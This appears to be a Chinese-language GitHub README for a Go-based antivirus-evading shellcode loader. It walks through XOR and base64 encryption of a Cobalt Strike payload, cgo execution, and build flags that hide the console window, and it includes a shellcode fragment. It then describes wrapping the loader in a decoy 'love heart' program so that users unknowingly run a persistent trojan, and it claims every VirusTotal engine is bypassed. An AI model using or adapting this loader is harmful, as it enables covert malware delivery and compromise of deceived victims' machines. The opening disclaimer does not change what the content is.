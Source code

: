 #          基于Go语言的shellcode免杀加载器

### 本项目使用go的1.23版本，gcc为8.1.0版本。

**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

### 1.项目中使用CS获取payload的c语言代码，获取代码中的十六进制内容，然后放到go中进行随机生成key进行xor异或加密然后进行base64加密。

### 2.在加载器代码中将key和加密代码获取然后使用base64解密后使用key进行xor解密为十六进制代码。

### 3.之后调用cgo来使用c语言进行命令的运行。

## 示例：

#### 1.获取payload c语言

![173712](\image\173712.png)

#### 2.获取十六进制数据和加密

将/* length: 893 bytes */
unsigned char buf[] = "  和最后的";删除。只保留十六机制代码

![174226](\image\174226.png)

将代码写为xoor.go的命令行参数

go run xoor.go \xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41

后面为完整的十六进制代码，运行得到

![174646](image\174646.png)

保存key和加密的code。

#### 3.使用xooor.go解密代码并调用cgo进行加载。

将key和code复制到xooor.go的key1和payload1参数中，然后

go build -ldflags="-H windowsgui" xooor.go 进行exe编译并指定启动时在后台启动不生成命令行窗口。

#### 4.测试

![175902](image\175902.png)



### 如果觉得就是一个exe而且点击后没有反应别人不会上当，那么可以将shellcode加载器嵌入到爱心代码中。

首先将xooor.go生成的隐藏命令行caiquan.exe放入到hello.go的相同目录，然后

```go
caiquanExePath := "caiquan.exe"
```

```go
tempCaiquanExe, err := os.CreateTemp("", "caiquan-*.exe")
```

中设置你的程序名称

最后 go build -o love.exe hello.go则可以生成木马在后台运行的爱心代码。

![181625](image\181625.png)

![181005](image\181005.png)

shellcode会在用户设置的临时文件夹中运行，结束爱心代码shellcode也不会结束。

## 免杀测试

打开(https://www.virustotal.com/gui/home/upload)

网站上传love.exe进行杀毒检测

![6fe27](image\6fe27.png)

全部绕过。

虽然能绕过shellcode识别但是应用会被识别为未知应用，如果有能力可以尝试数字签名等认证方式。
